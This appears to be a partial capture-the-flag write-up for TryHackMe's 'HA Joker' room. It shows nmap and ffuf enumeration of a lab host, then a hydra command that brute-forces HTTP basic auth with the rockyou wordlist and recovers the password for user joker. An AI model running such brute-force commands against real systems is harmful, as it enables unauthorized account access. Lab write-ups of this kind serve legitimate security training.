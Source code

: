 # HA Joker CTF



Room link: https://tryhackme.com/room/jokerctf

## Enumeration 

Nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29
```


ffuf

```
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
img                     [Status: 301, Size: 308, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
secret.txt              [Status: 200, Size: 320, Words: 62, Lines: 7]
                        [Status: 200, Size: 5954, Words: 783, Lines: 97]
phpinfo.php             [Status: 200, Size: 94858, Words: 4706, Lines: 1160]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
```

secret.txt

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

http://10.10.68.63/phpinfo.php

## port 8080

basic auth brute force with the user name Joker

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.10.68.63 http-get / -f -V 

[8080][http-get] host: 10.10.68.63   login: joker   password: hannah
```



